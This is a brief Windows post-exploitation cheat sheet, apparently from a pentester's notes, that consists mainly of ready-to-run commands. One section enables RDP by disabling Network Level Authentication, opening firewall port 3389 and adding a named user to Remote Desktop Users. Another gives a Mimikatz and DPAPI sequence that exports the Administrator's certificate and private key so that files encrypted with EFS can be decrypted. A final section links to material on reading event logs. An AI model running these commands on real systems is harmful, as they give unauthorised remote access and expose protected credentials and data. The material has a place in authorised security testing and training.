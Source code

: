 **Enable RDP**
--------------

```


reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f

Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server'-name "fDenyTSConnections" -Value 0
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"

net localgroup "Remote Desktop Users" morph3 /add

netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
netsh advfirewall firewall add rule name="allow RemoteDesktop" dir=in protocol=TCP localport=3389 action=allowCode language: PHP (php)
```


**Decrypting EFS files with Mimikatz**
--------------------------------------

Follow the link here [How to Decrypt EFS Files](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-decrypt-EFS-files)

```

privilege::debug 
token::elevate 
crypto::system /file:"C:\Users\Administrator\AppData\Roaming\Microsoft\SystemCertificates\My\Certificates\thecert" /export
dpapi::capi /in:"C:\Users\Administrator\AppData\Roaming\Microsoft\Crypto\RSA\SID\id"

dpapi::masterkey /in:"C:\Users\Administrator\AppData\Roaming\Microsoft\Protect\SID\masterkey" /password:pass123

dpapi::capi /in:"C:\Users\Administrator\AppData\Roaming\Microsoft\Crypto\RSA\SID\id" /masterkey:f2c9ea33a990c865e985c496fb8915445895d80b
openssl x509 -inform DER -outform PEM -in blah.der -out public.pem
openssl rsa -inform PVK -outform PEM -in blah.pvk -out private.pem
openssl pkcs12 -in public.pem -inkey private.pem -password pass:randompass -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

certutil -user -p randompass -importpfx cert.pfx NoChain,NoRoot
type "C:\Users\Administrator\Documents\encrypted.txt"Code language: PHP (php)
```


**Reading Event Logs**
----------------------

User must be in “Event Log Reader” group [Follow this link](https://evotec.xyz/powershell-everything-you-wanted-to-know-about-event-logs/)
